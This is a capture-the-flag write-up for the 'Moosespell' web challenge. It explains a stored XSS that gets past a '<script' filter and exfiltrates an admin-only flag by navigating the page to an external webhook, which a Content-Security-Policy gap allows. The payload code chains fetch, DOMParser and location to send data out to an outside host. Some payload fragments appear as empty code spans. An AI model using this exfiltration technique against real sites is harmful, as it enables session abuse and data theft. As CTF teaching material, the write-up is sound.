





**VuwCTF 2026**

**Challenge:** Moosespell

**Category:** Web

**Flag:** ``VuwCTF{the_w1ll_of_4r5h_m3ge}``

I participated with tjcsc in this CTF and we got 3rd place!

I used webhook.site for this challenge, but you can use anything else that can do what it does.

We're given the full source, which is nice. We get app.py, some templates, and some static js.
Interestingly, requirements.txt includes a selenium dependency. Why does this thing need a headless browser?

Anyways, let's look at the actual website before we spend 200000 years reading through all of that.


After registering an account and logging in, we're presented with this spell-making menu.
Making one creates a page at ``/spells/<id>`` that we can visit, then report to the "Archmage Moose."



That report is probably where the headless browser comes in, but let's make sure by looking at the code.
Yep, sure enough:
```python
@app.route('/report', methods=['POST'])
@token_required
def report(current_user):
    data = request.json or {}
    spell_id = data.get('spell_id')
    if not spell_id or not re.fullmatch(r'[A-Za-z0-9\-]+', str(spell_id)):
        return make_response(jsonify({'message': 'Invalid spell id'}), 400)

    # some boilerplate later.......

    driver.get('http://127.0.0.1:1337/login')
    driver.find_element(By.ID, 'username').send_keys('Archmage Moose')
    driver.find_element(By.ID, 'password').send_keys(app.config['ADMIN_PASSWORD'])
    driver.find_element(By.ID, 'submit').click()
    time.sleep(2)
    driver.get(f'http://127.0.0.1:1337/spells/{spell_id}')
    time.sleep(5)
```

Basically, ``/report`` takes a spell id, makes sure it looks like a UUID, then spins up a headless browser.
Conveniently, it logs itself in as the "Archmage Moose" to look at the spell page for a few seconds before tearing the browser down.

This entire setup is pointing really hard to stored XSS. I mean, we're able to make a page with content we decide that the admin visits.
And what does the admin have?
```python
with app.app_context():
    db.create_all()
    if not User.query.filter_by(name='Archmage Moose').first():
        db.session.add(User(
            id=str(uuid.uuid4()),
            name='Archmage Moose',
            password=generate_password_hash(app.config['ADMIN_PASSWORD']),
            admin=True,
        ))

        db.session.add(Spell(
            id=str(uuid.uuid4()),
            author='Archmage Moose',
            title='The Forbidden Bugle',
            incantation=app.config['FLAG'], # THE FLAG OH MY GOSH
        ))
        db.session.commit()
```

So, we just need to somehow read the spell in the admin's book, which we can't do on our account because of this:
```python
if spell.author != current_user.name and not current_user.admin:
    return make_response(jsonify({'message': 'This spell is not yours to read'}), 403)
```

Though, let's check the restrictions before we try anything.

spell.html has this interesting line.
``<div class="incantation">{{ spell.incantation|safe }}</div>``

This means our incantation is rendered as raw HTML. Nice. We could try something like ``<script>alert(1)</script>``.
But...
```python
def sanitize(text):
    return re.sub(r'<\s*script', '', text, flags=re.IGNORECASE)
```

Darn. Well, it strips "``<script``" case-insensitively. But that's literally all it does. So, we can just use something else.
For example, ````. No "``<script``" there. Let's give it a shot.
Make a spell where the incantation is just that and visit it.


Okay, we've got something that runs on a spell page, and reporting it to the admin means it runs as the admin.
So, let's try and fetch literally anything out to the webhook to see if it works.

Make a spell with an incantation that reads ````.
Report it to the admin, and my webhook is looking quite empty. Let's look at the response headers.
```python
@app.after_request
def cast_ward(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' 'unsafe-inline'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data:"
    )
    return response
```
Yeah, that'll do it.
Our onerror handler is able to run (script-src) and we *can* fetch the flag spell same-origin (default-src).
However, we can't fetch out to our webhook. And img-src 'self' stops ``new Image().src`` shenanigans.
Also, the JWT cookie is httponly, so we can't just steal the admin's cookie and log in ourselves.

Okay, what isn't in this CSP? Top-level navigation. So, something like ``location='https://myhook/?a=' + flag`` would be allowed!

Let's try and build this payload.
Start with ``r.text())``
Then, we need to get the first spell, and the id needs to be found dynamically.
To get it, we can use DOMParser to parse the spellbook HTML into a DOM, and we can querySelector the spell link out of it, then turn the response into the actual HTML text:
```python
    ".then(t=>fetch(new DOMParser().parseFromString(t,'text/html')"
    ".querySelector('a[href^=/spells/]').href))"
    ".then(r=>r.text())"
 ```
Finally, we can exfil to our webhook with the aforementioned top-level navigation:
```python
f".then(f=>location='{myhook}/?a='+encodeURIComponent(f))\">")
```

This all comes out to this payload:
```python
"r.text())"
".then(t=>fetch(new DOMParser().parseFromString(t,'text/html')"
".querySelector('a[href^=/spells/]').href))"
".then(r=>r.text())"
f".then(f=>location='{myhook}/?a='+encodeURIComponent(f))\">")
```

Make a spell with that as the incantation, report it to admin, and...


There it is, in the .incantation div. Forbidden magic and like 400 points.

Cool stored XSS challenge!

<del>Obligatory hand-drawn 🎉 to somewhat prove that I made this writeup myself</del>